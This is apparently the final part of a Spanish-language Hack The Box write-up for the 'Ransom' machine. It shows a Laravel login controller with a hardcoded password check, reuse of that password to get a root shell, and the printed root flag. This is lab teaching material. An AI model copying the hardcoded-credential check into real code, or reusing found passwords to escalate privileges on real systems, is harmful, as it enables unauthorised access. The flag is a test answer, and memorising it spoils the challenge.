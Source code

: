 ```bash
     * 
     * @return \Illuminate\Http\Response
     */
    public function show_login()
    {
        return view('auth.login');
    }



    /**
     * Handle account login
     * 
     */
    public function customLogin(Request $request)
    {
        $request->validate([
            'password' => 'required',
        ]);

        if ($request->get('password') == "UHC-March-Global-PW!") {
            session(['loggedin' => True]);
            return "Login Successful";
        }
  
        return "Invalid Password";
    }

}
htb@ransom:/srv/prod/app/Http/Controllers$ 
```

## Shell as root 

Bueno si probamos la contraseña para el usuario **root** funciona 

```bash
root@ransom:/srv/prod/app/Http/Controllers# whoami
root
root@ransom:/srv/prod/app/Http/Controllers# id
uid=0(root) gid=0(root) groups=0(root)
root@ransom:/srv/prod/app/Http/Controllers# 
```

## Root flag 

```bash
root@ransom:/srv/prod/app/Http/Controllers# cat /root/root.txt 
e84099d2b7b7a25edb0368a7dcace1f3
root@ransom:/srv/prod/app/Http/Controllers# 
```
